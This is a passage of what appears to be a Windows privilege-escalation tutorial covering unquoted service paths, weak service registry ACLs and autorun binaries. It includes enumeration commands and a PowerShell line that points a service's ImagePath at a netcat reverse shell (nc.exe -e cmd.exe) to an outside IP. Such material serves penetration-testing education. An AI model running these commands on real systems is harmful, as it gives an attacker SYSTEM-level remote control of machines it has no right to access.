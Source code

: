 ```
        SERVICE_START_NAME : LocalSystem
```
If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, NT AUTHORITY\SYSTEM.

* C:\Program.exe\
* C:\Program Files (x86)\System.exe

**creating files in the root of the drive or the program files folder requires administrative privileges. Even if the system had been misconfigured to allow this, the user probably wouldn't be able to restart the service and would be reliant on a system restart to escalate privileges. Although it's not uncommon to find applications with unquoted service paths, it isn't often exploitable**

##### Searching for Unquoted Service Paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
 
#### Permissive Registry ACLs
 
It is also worth searching for weak service ACLs in the Windows Registry. We can do this using **accesschk**.
 
##### Checking for Weak Service ACLs in Registry
 
```
C:\> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

##### Changing ImagePath with PowerShell
We can abuse this using the PowerShell cmdlet Set-ItemProperty to change the ImagePath value

```
PS C:\> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

#### Modifiable Registry Autorun Binary

#### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in
